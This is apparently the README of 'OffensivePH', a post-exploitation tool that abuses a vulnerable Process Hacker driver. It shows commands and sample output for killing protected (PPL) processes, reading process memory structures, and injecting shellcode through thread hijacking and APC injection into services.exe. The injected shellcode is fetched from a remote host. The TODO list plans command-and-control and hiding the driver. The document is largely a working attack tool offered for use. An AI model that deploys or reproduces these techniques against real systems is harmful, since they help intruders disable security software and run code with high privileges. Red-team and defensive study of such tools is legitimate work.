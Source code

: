 # offensiveph

OffensivePH is a post-exploitation tool that utilizes an old Process Hacker driver to bypass several user-mode access controls. 

## Usage
- Compile OffensivePH with VS2019 (tested). 
- Execute with Admin privileges.
```
offensivph.exe [-kill|-peb|-hijack|-apcinject] [<PID>] [<URL>]
	-kill		: Kill process (can kill PPLs)
	-peb		: Read PEB of a process
	-hijack		: Inject shellcode using thread execution hijacking
	-apcinject	: Inject shellcode into a new services.exe (WinTCB-PPL) instance
```
- Kill processes
```
> offensiveph.exe -kill 8228
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[*] Trying to terminate pid: 8228
[+] KphTerminateProcess is SUCCESSFUL
[*] Service and file are removed
```
- Inject shellcode by using Hijack Thread execution 
```
> offensiveph.exe -hijack 8412 http://192.168.56.100/calc-clean.bin
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[+] Connecting to URL for downloading payload
[+] Process 8412 thread is hijacked to execute payload
[*] Service and file are removed
```
- Inject shellcode into a new services.exe instance
```
> offensiveph.exe -apcinject http://192.168.56.100/calc-clean.bin
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[+] Process 652 token is duplicated as Impersonation Token!
[+] Connecting to URL for downloading payload
[+] Protected Shellcode Host Process: 6520
[*] Service and file are removed
```

## References
This repo contains lots of codes and inspration from original Process Hacker code. 
- https://github.com/processhacker/processhacker
- https://github.com/processhacker/phnt

## TODO
- Reflective DLLs and C2 implementation
- Hiding Kph Driver
